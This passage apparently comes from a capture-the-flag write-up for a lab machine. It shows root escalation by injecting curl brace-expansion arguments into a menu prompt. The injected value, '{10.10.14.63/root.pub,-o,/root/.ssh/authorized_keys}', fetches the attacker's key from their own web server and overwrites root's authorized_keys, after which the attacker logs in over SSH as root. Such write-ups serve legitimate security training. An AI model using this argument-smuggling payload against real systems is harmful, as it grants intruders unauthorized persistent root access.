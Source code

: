 Next we select the `3.Download A Threat Report.` again. This time we use brace expansion to specify additional parameters to the curl command.

```
Enter your choice:3
Enter the IP/file_name:{10.10.14.63/root.pub,-o,/root/.ssh/authorized_keys}
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   565  100   565    0     0  10272      0 --:--:-- --:--:-- --:--:-- 10272
Enter your choice:
```

Our key get's downloaded and we can ssh into the machine to grab the root flag

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.192.66 - - [28/Nov/2021 09:28:47] "GET /root.pub HTTP/1.1" 200 -
```

```
$ ssh -i root root@hackmedia.htb
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 28 Nov 2021 09:29:10 AM UTC

  System load:  0.0               Processes:             327
  Usage of /:   84.0% of 3.87GB   Users logged in:       1
  Memory usage: 76%               IPv4 address for eth0: 10.129.192.66
  Swap usage:   0%


8 updates can be applied immediately.
8 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Nov 27 20:39:06 2021 from 10.10.14.63
root@code:~# wc -c root.txt
33 root.txt
```